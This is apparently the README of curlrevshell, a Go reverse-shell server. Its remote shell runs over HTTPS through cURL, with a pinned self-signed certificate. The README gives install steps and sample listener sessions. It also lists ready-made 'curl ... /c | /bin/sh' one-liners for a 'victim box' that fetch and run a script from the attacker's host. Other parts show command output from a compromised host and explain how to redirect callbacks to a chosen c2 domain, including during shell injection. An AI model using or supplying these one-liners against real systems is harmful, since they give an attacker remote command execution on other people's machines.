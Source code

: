 cURL-Powered Reverse Shell
==========================
Somewhat kooky replacement for the typical `bash >/dev/tcp...` reverse shell,
but with the following "features":

- Underlying comms via HTTPS via cURL
- Self-signed TLS certificate, plus certificate pinning
- One cURL execution per output line
- Lots and lots of fork and exec
- Like, lots
- Optionally serves static files
- Accepts multiple shells in series, like `nc -lk` but in color

For legal use only

Quickstart
----------
1. Install the Go compiler (https://go.dev/doc/install).
2. Install `curlrevshell` and start it.
   ```sh
   go install github.com/magisterquis/curlrevshell@latest
   curlrevshell
   ```
3. Get a shell, using one of the lines under `To get a shell:`.

There are a few options, try `-h` for a list.

Example
-------
It should look like the following, but with nicer colors:
```
$ go install github.com/magisterquis/curlrevshell@latest
go: downloading github.com/magisterquis/curlrevshell v0.0.1-beta.1
go: downloading golang.org/x/net v0.22.0
go: downloading golang.org/x/sync v0.6.0
go: downloading golang.org/x/term v0.18.0
go: downloading golang.org/x/tools v0.19.0
go: downloading golang.org/x/sys v0.18.0
go: downloading golang.org/x/text v0.14.0
$ curlrevshell
01:04:42.760 Listening on 0.0.0.0:4444
01:04:42.760 To get a shell:
01:04:42.760
01:04:42.760 curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://127.0.0.1:4444/c | /bin/sh
01:04:42.760 curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://192.168.1.10:4444/c | /bin/sh
01:04:42.760 curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://[::1]:4444/c | /bin/sh
01:04:42.760 curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://[fe80::1]:4444/c | /bin/sh
01:04:42.760
01:04:55.247 [192.168.1.20] Sent script: ID:zcj5vz3zp6ce URL:192.168.1.10:4444
01:04:55.259 [192.168.1.20] Got a shell: ID:zcj5vz3zp6ce
> id
01:05:10.753 uid=1000(you) gid=1000(you) groups=1000(you), 0(wheel), 117(dialer)
```
On `192.168.1.20`, the victim box, somewhere between `01:04:42.760` and `01:04:55.247`:
```sh
curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://192.168.1.10:4444/c | /bin/sh
```

Usage
-----
```
Usage: curlrevshell [options]

Even worse reverse shell, powered by cURL

Options:
  -callback-address address
    	Additional callback address or domain, for one-liner printing (may be repeated)
  -callback-template template
    	Optional callback template file
  -listen-address address
    	Listen address (default "0.0.0.0:4444")
  -no-timestamps
    	Don't print timestamps
  -print-default-template
    	Write the default template to stdout and exit
  -serve-files-from directory
    	Optional directory from which to serve static files
  -tls-certificate-cache file
    	Optional file in which to cache generated TLS certificate (default "/home/stuart/.cache/curlrevshell/cert.txtar")
```

Details
-------
Under the hood, it's really just a little HTTP server with four endpoints:

Endpoint          | Description
------------------|------------
`/i/{id}`         | Long-lived connection for input from you to the shell.
`/o/{id}`         | Output from the shell to you, one line at a time.  The `{id}` has to match `/i`'s.
`/c`              | Serves up a little script that takes the place of `bash >/dev/tcp...` and makes you appreciate low PIDs.
`/{anythingelse}` | Either serves up files of 404's if nobody gave it `-serve-files-from` (which doesn't actually have to be a directory).

Callback Template
-----------------
The script generated with `/c` can be changed by writing a new template and
telling the program about it with `-print-default-template`.  It usually looks
like
```sh
$ curlrevshell -print-default-template >custom.tmpl # Get the default template to start with
$ vim ./custom.tmpl                                 # Mod ALL the things!
$ curlrevshell -callback-template ./custom.tmpl     # Run with your fancy new template
```
The struct passed to the template is `TemplateParams` in
[script.go](internal/hsrv/script.go).  The default script is
[script.tmpl](internal/hsrv/script.tmpl).

Callback Address
----------------
Most of the time if you can connect to the server to grab a script (i.e. `/c`)
the server will work out the right callback address.  Most of the time.  For
those times which aren't Most, giving a URL with either a `c2` parameter to `/c`
or a `c2:` header should clear things up.  This is clearer with an example:

### As a URL parameter
The Request for a script:
```sh
curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c?c2=kittens.com'
```
The `curl` command in the script:
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com/i/1upal29kpq9g7 </dev/null 2>&0 |
```
With `?c2=kittens.com` it would have been `https://192.168.1.10:4444` instead.

The server also tells us that the script was generated for `kittens.com`:
```
22:08:20.488 [192.168.1.20] Sent script: ID:1upal29kpq9g7 URL:kittens.com
```

### As a header
Sometimes it's a pain to put `?` and such in shell injection.  Headers are
easier.  We'll also add a port this time.
```sh
curl -Hc2:kittens.com:22 -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c'
```
Weird flex, but it worked.
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com:22/i/2v0ohzqf5kw1t </dev/null 2>&0 |
```
Server agrees
```
22:14:13.902 [192.168.1.20] Sent script: ID:2v0ohzqf5kw1t URL:kittens.com:22
```

TLS
---
TLS is all via a pinned self-signed certificate.  By default, the certificate
is cached in a file, mostly to keep from having to copy/paste a new fingerprint
every time a ragey Ctrl+C kills the current shell.  Caching can be disabled
with `-tls-certificate-cache ""`.
